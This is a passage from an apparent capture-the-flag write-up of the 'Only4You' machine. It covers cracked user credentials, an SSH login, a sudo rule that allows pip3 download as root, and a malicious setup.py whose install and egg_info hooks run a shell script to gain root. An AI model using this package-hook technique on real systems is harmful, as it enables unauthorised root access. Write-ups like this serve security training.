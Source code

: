 Cracking the `hashes` on the crackstation, we see that there is a hash which equals to `ThisIs4You` and that has belonged to `john` user:

![](/img/OnlyForYou_6cf32928838a4b23bc4a47a1102c4daf/Untitled_12.png)

```python
john:ThisIs4You
```

Now, we can login to the SSH via the obtained credentials:

![](/img/OnlyForYou_6cf32928838a4b23bc4a47a1102c4daf/Untitled_13.png)

Once logged in and checking if there is any command that could be ran by `john` user:

```python
john@only4you:~$ sudo -l
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

Now, searching for any privilege escalation online for the `pip download`, I stumbled on the following post:

[https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/)

Following the post, I just changed the `[setup.py](http://setup.py)` and used `os.system` to execute the same shell script that I had downloaded previously to the machine:

```python
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os

def RunCommand():
    print("Hello, p0wnd!")
    os.system("bash /tmp/shell.sh")

class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)

class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
    name = "this_is_fine_wuzzi",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
    cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
)
```
